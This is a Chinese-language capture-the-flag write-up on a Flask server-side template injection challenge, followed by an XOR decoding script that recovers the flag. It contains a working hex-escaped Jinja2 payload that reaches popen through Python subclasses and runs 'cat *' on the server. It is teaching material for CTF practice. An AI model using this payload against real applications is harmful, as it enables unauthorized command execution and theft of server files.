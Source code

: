 # Flask SSTI

## 知识点

`python ssti`

`python xor`

## 解题

找到个输入框，随便输入什么都返回同样的字符串，因为是`SSTI`的题目，使用`SSTI`的`payload`

![](img/FlaskSSTI-2.png)

发现输入框处存在`SSTI`，看一下配置信息，发现了`flag`

![](img/FlaskSSTI-3.png)

但是似乎是被加密的，要解密需要进一步读取`app.py`文件，尝试各种绕过之后发现可以`hex`绕过

```python
{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()[117]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["popen"]("cat *")["read"]()}}
```

![](img/FlaskSSTI-4.png)

用了`异或`进行加密，在逆向比较常见，利用`异或`的特性，即异或某字符两字即为原字符

example：

```python
print(ord('a'), ord('c'))
# 97 99
print(ord('a') ^ ord('c'))
# 2
print(ord('a') ^ ord('c') ^ ord('c'))
# 97
```

所以只需要再次异或即可获取明文，`python`代码如下

```python
encoded = '(U0\x1fy\x13y6fSsaxBM\x02mT3EI\x1a\t\x08-=\x01f\x1cUF\x15'

key = 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3'
key2 = 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT'

def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

def decode(line, key, key2):
    result = ''
    for x in range(len(line)):
        print(chr(ord(line[x]) ^ x ^ ord(key[::-1][x]) ^ ord(key2[x])), end='')


if __name__ == '__main__':
    decode(encoded, key, key2)
```

![](img/FlaskSSTI-5.png)
